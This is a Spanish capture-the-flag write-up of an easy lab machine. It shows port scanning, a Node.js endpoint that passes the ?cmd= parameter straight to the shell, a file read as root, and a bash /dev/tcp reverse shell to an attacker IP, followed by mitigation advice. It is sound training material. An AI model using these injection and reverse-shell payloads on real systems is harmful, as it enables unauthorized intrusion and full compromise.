







## Información General

| Campo | Valor |
|-------|-------|
| **Plataforma** | whoami-labs |
| **Dificultad** | Fácil |
| **IP Objetivo** | 172.17.0.2 |
| **Autor** | elc0ket |

## Técnicas Usadas

- Enumeración de puertos con Nmap
- Revisión de código fuente (JS client-side)
- Command Injection vía parámetro GET (`?cmd=`)
- Remote Code Execution (RCE) sin autenticación
- Reverse shell con Bash over TCP

---

## Fase 1: Reconocimiento y Enumeración

### Escaneo de Puertos

```bash
nmap -p- -sS --min-rate 5000 -n -vvv -Pn -sC -sV -oN ports 172.17.0.2
```

**Resultado relevante:**



Solo hay un servicio expuesto: una aplicación Node.js/Express en el puerto 3000.

---

## Fase 2: Análisis de la Aplicación Web

Accedemos a `http://172.17.0.2:3000/` y revisamos el código fuente de la página.



### Descubrimiento del endpoint vulnerable

En el JS embebido encontramos un endpoint interno y la forma en que se construye la petición:



> [!warning]
> El parámetro `cmd` se pasa directamente a la URL y se ejecuta en el servidor sin ningún tipo de sanitización. Inyección de comandos trivial.

---

## Fase 3: Explotación — Command Injection / RCE

### Verificación de ejecución de comandos

```
http://172.17.0.2:3000/api/sysinfo?cmd=id
```

**Respuesta:**


Ejecución directa como `root`. No hay ningún mecanismo de autenticación ni restricción de comandos.

### Lectura de la flag

```
http://172.17.0.2:3000/api/sysinfo?cmd=cat%20/root/flag.txt
```

**Respuesta:**



### Reverse Shell

Ponemos el listener en nuestra máquina atacante:

```bash
nc -lvnp 1234
```

Lanzamos la reverse shell vía el parámetro vulnerable:

```
http://172.17.0.2:3000/api/sysinfo?cmd=bash -c 'bash -i %26>/dev/tcp/192.168.241.128/1234 <%261'
```

**Conexión recibida:**



Acceso directo como `root` sin escalada necesaria.

---

## Fase 4: Post-Explotación

```bash
cd /root
cat flag.txt
```



---

## Conclusiones

La aplicación exponía un endpoint `/api/sysinfo` que ejecutaba comandos del sistema operativo directamente a partir del parámetro `?cmd=` sin ningún tipo de validación, sanitización ni autenticación. El proceso corría como `root`, lo que convirtió el RCE en un compromiso total inmediato.

### Mitigaciones recomendadas

- Nunca pasar input del usuario directamente a funciones de ejecución de sistema (`exec`, `spawn`, etc.)
- Implementar una allowlist de comandos permitidos en lugar de ejecución libre
- Correr el proceso con un usuario sin privilegios
- Autenticar el acceso a endpoints de administración/métricas

---


